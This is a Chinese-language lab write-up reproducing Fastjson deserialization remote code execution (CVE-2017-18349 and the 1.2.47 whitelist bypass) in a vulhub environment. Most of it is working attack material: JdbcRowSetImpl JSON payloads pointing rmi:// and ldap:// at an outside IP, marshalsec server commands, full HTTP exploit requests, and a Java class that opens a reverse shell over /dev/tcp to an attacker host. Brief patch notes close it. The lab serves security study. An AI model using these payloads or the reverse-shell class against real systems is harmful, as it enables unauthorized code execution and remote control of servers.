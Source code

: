 ## CVE-2017-18349Fastjson反序列化

parseObject in Fastjson before 1.2.25, as used in FastjsonEngine in Pippo 1.11.0 and other products, allows remote attackers to execute arbitrary code via a crafted JSON request, as demonstrated by a crafted rmi:// URI in the dataSourceName field of HTTP POST data to the Pippo /json URI, which is mishandled in AjaxApplication.java.

Fastjson < 1.2.25

### 漏洞原理

FastJson是阿里巴巴的开源JSON解析库，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。

> **JavaBeans**是[Java](https://zh.wikipedia.org/wiki/Java)中一种特殊的[类](https://zh.wikipedia.org/wiki/类_(计算机科学))，可以将多个[对象](https://zh.wikipedia.org/wiki/对象_(计算机科学))封装到一个对象（bean）中。特点是可[序列化](https://zh.wikipedia.org/wiki/序列化)，提供[无参构造器](https://zh.wikipedia.org/w/index.php?title=无参构造器&action=edit&redlink=1)，提供[getter方法和setter方法](https://zh.wikipedia.org/wiki/赋值方法)访问对象的属性。

Fastjson提供了autotype功能，**允许用户在反序列化数据中通过“@type”指定反序列化的Class类型**。

Fastjson中也支持指定类的反序列化，只需要在json的key中添加`@type`即可

~~~
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://101.43.138.109:1099/TouchFile",
        "autoCommit":true
    }
}
~~~

`JdbcRowSetImpl`这个类的`dataSourceName`支持传入一个rmi的源。当解析这个uri的时候，就会支持rmi远程调用，去指定的rmi地址中去调用方法。

对JdbcRowSetImpl这个类进行反序列化，反序列化的对象从攻击者搭建的RMI源获取。

> Java的RMI远程调用是指，一个JVM中的代码可以通过网络实现远程调用另一个JVM的某个方法。RMI是Remote Method Invocation的缩写。Java的RMI依赖序列化和反序列化，而这种情况下可能会造成严重的安全漏洞，因为Java的序列化和反序列化不但涉及到数据，还涉及到二进制的字节码，即使使用白名单机制也很难保证100%排除恶意构造的字节码。
>
> 在上次shiro反序列化漏洞的复现中使用了RMI的底层协议JRMP

### 漏洞复现

使用vulhub fastjson/1.2.24-rce环境

![image-20220223095907610](TyporaPicture/image-20220223095907610.png)

![image-20220223124354829](TyporaPicture/image-20220223124354829.png)

复现此漏洞需要本地编译一个java class文件，使靶机通过RMI服务远程加载此恶意类，执行其中的代码。

~~~
javac TouchFile.java
~~~

~~~java
import java.lang.Runtime;
import java.lang.Process;
public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success177"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
~~~

还需要使用marshalsec项目，可以在本地快速开启RMI和LDAP服务。

~~~
proxychains git clone https://github.com/mbechler/marshalsec
apt-get install maven
cd marshalsec
proxychains mvn clean package -DskipTests
~~~

> mvn编译报错No compiler is provided in this environment. Perhaps you are running on a JRE rather than a JDK?
>
> Ubuntu默认安装的是jdk8-jre，安装jdk8  apt-get install openjdk-8-jdk

~~~
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://101.43.138.109:2333/#TouchFile" 1099
~~~

在TouchFile.class目录下使用python搭建一个web服务，使能访问到TouchFile类

~~~
python3 -m http.server 2333
~~~

![image-20220223110844910](TyporaPicture/image-20220223110844910.png)

使用burp发送 payload，RMI将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行

~~~
POST / HTTP/1.1
Host: 101.43.138.109:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
Connection: close
Content-Length: 164

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://101.43.138.109:1099/TouchFile",
        "autoCommit":true
    }
}
~~~

服务器返回500错误，本地的RMI服务收到请求

![image-20220223111433409](TyporaPicture/image-20220223111433409.png)

python服务器收到请求，返回了TouchFile类

![image-20220223133531229](TyporaPicture/image-20220223133531229.png)

构造一个反弹shell的恶意class

~~~java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            Process pc = rt.exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/101.43.138.109/1770 0>&1");
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
~~~

~~~
javac TouchFil.java
~~~

反弹成功

![image-20220223135604814](TyporaPicture/image-20220223135604814.png)

ldap模式getshell

> ldap轻型目录访问协议，也是一种获取远程服务器上资源的协议

~~~
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://101.43.138.109:2333/#TouchFile" 1099
~~~

burp payload如下，其余过程和RMI模式相同

~~~
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://101.43.138.109:1099/TouchFile",
        "autoCommit":true
    }
}
~~~

### 漏洞修复

升级jdk，目标使用高于以下版本的jdk时，ldap和RMI远程加载将无法利用

![image-20220223140933875](TyporaPicture/image-20220223140933875.png)

java官方觉得让服务去请求远程的类的确是一个很危险的操作，所以在后来的版本中默认将这个功能关掉了。

升级fastjson到1.2.25，fastjson 于1.2.24 版本后增加了反序列化白名单

---

https://www.kingkk.com/2019/07/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E-1-2-24-1-2-48/

这篇文章介绍了漏洞出现后，Fastjson的补丁分析以及绕过方法。看来提升自己的代码能力，才能对漏洞有更深入的理解，不再依靠别人的payload，阅读源码可以大大提升漏洞利用的水平。这也是一些大佬只需看payload就知道漏洞原理的原因。

## Fastjson 1.2.47

在2019年6月，fastjson 又被爆出在 `fastjson< =1.2.47` 的版本中，攻击者可以利用特殊构造的 json 字符串绕过白名单检测。

攻击流程与先前版本相同，payload如下

~~~
POST / HTTP/1.1
Host: 101.43.138.109:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json
Connection: close
Content-Length: 271

{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://101.43.138.109:1099/TouchFile",
        "autoCommit":true
    }
}
~~~

`fastjson`在1.2.68及之后的版本中引入了`safeMode`，配置`safeMode`后，无论白名单和黑名单，都不支持`autoType`，可一定程度上缓解反序列化Gadgets类变种攻击

